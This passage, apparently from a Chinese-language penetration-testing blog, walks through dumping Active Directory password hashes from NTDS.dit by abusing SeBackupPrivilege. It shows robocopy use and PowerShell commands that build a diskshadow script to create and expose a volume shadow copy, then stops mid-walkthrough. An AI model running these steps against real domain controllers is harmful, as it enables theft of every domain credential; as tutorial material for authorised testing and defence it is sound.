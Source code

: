 ## 使用 SeBackupPrivilege 转储 NTDS.dit 哈希值

使用 robocopy 制作 ntds.dit 文件的副本

[![](assets/1706771835-b1e56072e04deaca9834e9fb1ddd2d02.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129103231-a6cf9e52-be4e-1.png)

制作 script.txt 文件

[![](assets/1706771835-b11151b293cd3ee070ed717cff22745a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129103237-aae3fb64-be4e-1.png)

```bash
echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii
echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append
echo "create" | out-file ./diskshadow.txt -encoding ascii -append        
echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append
```

创建 script.txt 文件后，我使用以下命令创建卷影副本并将其显示为 Z:\\ 驱动器：

[![](assets/1706771835-a8c3b8b59f72f4f9a770ea0bfd3870ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240129103245-af39cb1c-be4e-1.png)
